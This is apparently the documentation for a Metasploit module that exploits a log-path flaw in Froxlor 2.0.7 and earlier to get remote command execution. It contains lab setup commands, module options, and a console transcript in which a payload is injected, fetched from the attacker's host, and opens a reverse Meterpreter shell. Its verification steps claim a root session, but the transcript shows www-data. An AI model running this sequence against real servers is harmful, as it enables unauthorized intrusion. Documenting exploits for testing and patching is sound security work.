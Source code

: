 ## Vulnerable Application

Froxlor is an open source web hosting control panel. Froxlor v2.0.7 and below suffers from a bug that allows
authenticated users to change the application logs path to any directory on the OS level which the user www-data can
write without restrictions from the backend which leads to writing a malicious Twig template that the application will
render. That will lead to achieving a remote command execution under the user www-data.

### Setup
Install php 8.1 and MySQL. Download the vulnerable Froxlor application and place it in Ubuntu's default webroot. The
below instruction set should be able to be copy and pasted into a terminal in order to deploy a vulnerable application.
```
sudo add-apt-repository ppa:ondrej/php
sudo apt install php8.1
sudo apt install php8.1-common php8.1-mysql php8.1-xml php8.1-xmlrpc php8.1-curl php8.1-gd php8.1-imagick php8.1-cli php8.1-dev php8.1-imap php8.1-mbstring php8.1-opcache php8.1-soap php8.1-zip php8.1-redis php8.1-intl php8.1-gmp php8.1-bcmath -y
wget https://files.froxlor.org/releases/froxlor-2.0.3.tar.gz
gunzip froxlor-2.0.3.tar.gz
tar -xvf froxlor-2.0.3.tar
sudo rm /var/www/html/index.html
sudo cp -r froxlor /var/www/html/
cd /var/www/html/
sudo chown -R www-data:www-data ./
sudo apt install mysql-server
`sudo systemctl start mysql.service`
sudo mysql
mysql> ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'notpassword';
mysql> quit;
sudo systemctl restart apache2
```

After the above completes successfully, navigate to http://localhost/froxlor to finish the web-based portion of the
installation. Accept the EULA and input the database credentials and then start the application.

## Options

### TARGETURI

The base URI path of Froxlor. **Default: /froxlor**

### WEB_ROOT

The webroot of the Froxlor server. The webroot must be known in order to write the absolute path of the logfile. The
default options assumes Froxlor is installed on an Ubuntu machine: **Default: /var/www/html**


## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/froxlor_log_path_rce`
1. Set the `RHOSTS`, `LHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### Ubuntu 20.04, Froxlor 2.0.3 running on Apache, MySQL and PHP 8.1
```
msf6 > use exploit/linux/http/froxlor_log_path_rce
[*] Using exploit/linux/http/froxlor_log_path_rce
msf6 exploit(linux/http/froxlor_log_path_rce) > set rhosts 172.16.199.140
rhosts => 172.16.199.140
msf6 exploit(linux/http/froxlor_log_path_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(linux/http/froxlor_log_path_rce) > set lport 9191
lport => 9191
msf6 exploit(linux/http/froxlor_log_path_rce) > set username admin
username => admin
msf6 exploit(linux/http/froxlor_log_path_rce) > set password notpassword
password => notpassword
msf6 exploit(linux/http/froxlor_log_path_rce) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:9191
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Successful login
[+] The target appears to be vulnerable. Vulnerable version found: 2.0.3
[+] Successfully Logged in!
[+] CSRF token is : 5701b7e6335ab13e20e91845b210b6be0bea7621
[+] Changed logfile path to: /var/www/html/froxlor/templates/Froxlor/footer.html.twig
[*] Using URL: http://172.16.199.1:8080/ygs3pAWMRNIs
[+] Injected payload successfully
[*] Changing logfile path back to default value while triggering payload: /var/www/html/froxlor/logs/froxlor.log
[*] Client 172.16.199.140 (Wget/1.20.3 (linux-gnu)) requested /ygs3pAWMRNIs
[*] Sending payload to 172.16.199.140 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (3045348 bytes) to 172.16.199.140
[*] Cleaning up...
[*] Deleting tampered footer.html.twig file
[*] Rewriting clean footer.html.twig file
[*] Meterpreter session 3 opened (172.16.199.1:9191 -> 172.16.199.140:50398) at 2023-02-13 18:20:02 -0500
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 172.16.199.140
OS           : Ubuntu 20.04 (Linux 5.15.0-58-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
